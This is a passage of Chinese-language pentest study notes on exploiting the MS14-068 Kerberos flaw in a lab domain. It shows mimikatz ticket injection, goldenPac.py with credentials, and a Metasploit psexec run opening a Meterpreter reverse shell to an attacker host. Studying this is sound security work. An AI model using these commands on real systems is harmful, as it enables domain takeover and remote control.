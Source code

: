 ```cmd
mimikatz
//注入票据
kerberos::ptc "TGT_user1@pentest.com.ccache"
```
+ 验证权限
`dir \\WIN-2K5J2NT2O7P\c$`	//可以列出与控制器的C盘
### 6.6.3 goldenPac.py
> goldenPac.py是一个用于对kerberos进行测试的工具,集成在impacket工具包中,在impacket-master/examples目录下
+ 命令格式
`python goldenPac.py 域名/域成员用户:域成员用户密码@域控制器`
+ 安装kerberos客户端
> kali中默认不包含kerberos客户端
`apt-get install krb5-user -y`
+ 配合psexec获取域控制器的shell
`python goldenPac.py pentest.com/user1:Aa123456@WIN-2K5J2NT2O7P@pentest.com`
> 由于是通过psexec,会产生大量日志,psexec已被列为危险文件
### 6.6.4 在metssploit中进行测试
`auxiliary/admin/kerberos/ms14_068_kerberos_checksum`
exploit此模块,会生成一个.bin文件,metasploit不支持bin文件导入,需要先使用mimikatz对文件进行格式转换,会转换成一个.lirbi文件
`kerberos::clist ".bin文件" /export`
获得一个域内机器的meterpreter
```shell
load kiwi
//然后输入转换后的票据文件
background
msf5 > use exploit/windows/local/current_user_psexec 
msf5 exploit(windows/local/current_user_psexec) > set TECHNIQUE PSH
TECHNIQUE => PSH
msf5 exploit(windows/local/current_user_psexec) > set RHOSTS WIN-2K5J2NT2O7P@pentest.com
RHOSTS => WIN-2K5J2NT2O7P@pentest.com
msf5 exploit(windows/local/current_user_psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/current_user_psexec) > set LHOST 192.168.86.135
LHOST => 192.168.86.135
msf5 exploit(windows/local/current_user_psexec) > set session 1
session => 1
msf5 exploit(windows/local/current_user_psexec) > exploit 
```
### 6.6.5 防范建议(310页)